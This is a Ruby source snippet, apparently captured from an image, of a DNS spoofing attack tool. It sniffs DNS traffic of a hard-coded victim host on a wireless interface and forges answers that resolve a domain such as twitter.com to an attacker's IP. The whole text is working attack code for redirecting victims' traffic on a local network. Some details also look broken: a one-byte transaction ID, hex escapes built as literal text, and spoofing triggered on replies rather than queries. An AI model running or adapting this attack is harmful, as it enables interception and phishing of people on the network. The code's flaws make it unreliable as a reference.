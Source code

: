 ```ruby
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

  end
end
```
